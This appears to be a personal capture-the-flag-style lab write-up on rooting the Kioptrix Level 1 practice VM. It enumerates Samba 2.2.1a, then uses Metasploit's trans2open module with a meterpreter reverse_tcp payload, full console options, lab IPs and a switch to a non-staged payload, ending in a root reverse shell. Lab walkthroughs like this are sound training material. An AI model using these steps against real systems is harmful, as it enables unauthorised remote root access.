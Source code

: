 
**Exploit kioptrix level 1**

ATTACKING SMB<br/>
<br/>
-------------------------------------------------------<br/>
From Enumeration<br/>
<br/>
port 139 (SMB)<br/>
139/tcp  open netbios-ssn Samba smbd (workgroup: MYGROUP)<br/>
Unix (Samba 2.2.1a)<br/>
<br/>
Google &gt; Samba 2.2.1a exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/10<br/>
https://www.exploit-db.com/exploits/7<br/>
<br/>
rapid 7 (metasploit)<br/>
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/<br/>
NOTE<br/>
Description<br/>
<br/>
This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they<b>apparently do not allow anonymous access to IPC</b><br/>
WE tested and DID have anon access to IPC. CHECK!<br/>
<br/>
<br/>
---------------------------------------------------------------------------------<br/>
<br/>
Victim - 192.168.247.129<br/>
attacker - 192.168.247.128<br/>
<br/>
<br/>
<br/>
SEARCHSPLOIT &lt;query&gt;<br/>
<br/>
searchspolit samba 2.2<br/>
<br/>
<img height="250" src="image.png" width="594"/><br/>
<br/>
Probable a 'trans2open' attack<br/>
<br/>
BOOT UP METASPLOIT<br/>
<br/>
search for 'trans2open' inside metasploit &gt;&gt; during enum a rapid 7 link was identified.<br/>
<br/>
<img height="150" src="image 2.png" width="498"/><br/>
<br/>
During enum it was identifed the system was running redhat &gt; thus linux so option 1 for linux x86<br/>
<br/>
view options<br/>
<br/>
set RHOSTS &lt;victim IP&gt;<br/>
<br/>
check IP was set<br/>
<br/>
msf6 &gt; use 1<br/>
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp<br/>
msf6 exploit(linux/samba/trans2open) &gt; options<br/>
<br/>
Module options (exploit/linux/samba/trans2open):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 RHOSTS          yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi<br/>
                   t<br/>
 RPORT  139       yes    The target port (TCP)<br/>
<br/>
<br/>
Payload options (linux/x86/meterpreter/reverse_tcp):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 LHOST 192.168.247.128 yes    The listen address (an interface may be specified)<br/>
 LPORT 4444       yes    The listen port<br/>
<br/>
<br/>
Exploit target:<br/>
<br/>
 Id Name<br/>
 -- ----<br/>
 0  Samba 2.2.x - Bruteforce<br/>
<br/>
<br/>
msf6 exploit(linux/samba/trans2open) &gt; set RHOSTS 192.168.247.129<br/>
RHOSTS =&gt; 192.168.247.129<br/>
msf6 exploit(linux/samba/trans2open) &gt; options<br/>
<br/>
Module options (exploit/linux/samba/trans2open):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 RHOSTS 192.168.247.129 yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi<br/>
                   t<br/>
 RPORT  139       yes    The target port (TCP)<br/>
<br/>
<br/>
Payload options (linux/x86/meterpreter/reverse_tcp):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 LHOST 192.168.247.128 yes    The listen address (an interface may be specified)<br/>
 LPORT 4444       yes    The listen port<br/>
<br/>
<br/>
Exploit target:<br/>
<br/>
 Id Name<br/>
 -- ----<br/>
 0  Samba 2.2.x - Bruteforce<br/>
<br/>
<br/>
<br/>
NOTE &gt;&gt;&gt; Default meterpreter ports will prob get picked up...<br/>
<br/>
<br/>
Run or exploit<br/>
<br/>
<img src="image 3.png"/><br/>
<br/>
Sessions dieing &gt; time to cancel and check options<br/>
<br/>
<br/>
Second time checking options after payload did not work meterpreter offeres payload options<br/>
<br/>
<img height="250" src="image 4.png" width="602"/><br/>
<br/>
Current paylaod is staged &gt;&gt;&gt; see the ///<br/>
<br/>
<img height="150" src="image 5.png" width="612"/><br/>
<br/>
change payload to non staged &gt; check with options<br/>
<br/>
exploit!<br/>
<br/>
<img height="400" src="image 6.png" width="693"/><br/>
<br/>
Reverese shell with root access!!!!<br/>
<br/>
<br/>
